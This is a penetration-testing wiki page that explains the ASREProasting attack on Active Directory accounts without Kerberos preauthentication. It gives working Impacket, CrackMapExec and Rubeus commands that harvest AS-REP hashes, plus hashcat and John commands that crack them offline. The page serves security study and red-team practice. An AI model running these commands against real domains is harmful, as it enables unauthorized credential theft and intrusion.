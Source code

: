 # ASREProast

## Theory

When asking the KDC \(Key Distribution Center\) for a TGT \(Ticket Granting Ticket\), the requesting user needs to send a piece of information \(a timestamp\) encrypted with it's own credentials. It ensures the user is requesting a TGT for himself. This is called Kerberos preauthentication.

The TGT is then sent to the user in the `KRB_AS_REP` message, but that message also contains a session key. That session key is encrypted with the requested user's NT hash.

Kerberos preauthentication prevents attackers from requesting a TGT for any user, receive the `KRB_AS_REP` message, extract the session key and crack it offline in an attempt to retrieve that user's password.

Because some applications don't support Kerberos preauthentication, it is common to find users with Kerberos preauthentication disabled, hence allowing attackers to request TGTs for these users and crack the session keys offline. This is ASREProasting.

## Practice

{% hint style="info" %}
While this attack can be carried out without any prior foothold \(domain user credentials\), there is no way of finding out users with `Do not require Kerberos preauthentication` set without that prior foothold.
{% endhint %}

{% tabs %}
{% tab title="UNIX-like" %}
The [Impacket](https://github.com/SecureAuthCorp/impacket) script [GetNPUsers](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py) \(Python\) can get TGTs for the users that have the property `Do not require Kerberos preauthentication` set.

```bash
# users list dynamically queried with an LDAP anonymous bind
GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/'

# with a users file
GetNPUsers.py -usersfile users.txt -request -format hashcat -outputfile ASREProastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/'

# users list dynamically queried with a LDAP authenticated bind (password)
GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/USER:Password'

# users list dynamically queried with a LDAP authenticated bind (NT hash)
GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt -hashes 'LMhash:NThash' -dc-ip $KeyDistributionCenter 'DOMAIN/USER'
```

This can also be achieved with [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) \(Python\).

```bash
crackmapexec ldap $TARGETS -u $USER -p $PASSWORD --asreproast ASREProastables.txt --KdcHost $KeyDistributionCenter
```

The [kerberoast](https://github.com/skelsec/kerberoast) pure-python toolkit is a good alternative to the tools mentioned above.
{% endtab %}

{% tab title="Windows" %}
The same thing can be done with [Rubeus](https://github.com/GhostPack/Rubeus) from a session running with a domain user privileges.

```bash
Rubeus.exe asreproast  /format:hashcat /outfile:ASREProastables.txt
```
{% endtab %}
{% endtabs %}

Depending on the output format used \(`hashcat` or `john`\), [hashcat](https://github.com/hashcat/hashcat) and [JohnTheRipper](https://github.com/magnumripper/JohnTheRipper) can be used to try [cracking the hashes](../credentials/cracking.md).

```bash
hashcat -m 18200 -a 0 ASREProastables.txt $wordlist
```

```bash
john --wordlist=$wordlist ASREProastables.txt
```

## Resources

{% embed url="https://blog.xpnsec.com/kerberos-attacks-part-2/" caption="" %}

{% embed url="https://www.harmj0y.net/blog/activedirectory/roasting-as-reps/" caption="" %}

{% embed url="https://social.technet.microsoft.com/wiki/contents/articles/23559.kerberos-pre-authentication-why-it-should-not-be-disabled.aspx" caption="" %}

{% embed url="https://en.hackndo.com/kerberos" caption="" %}

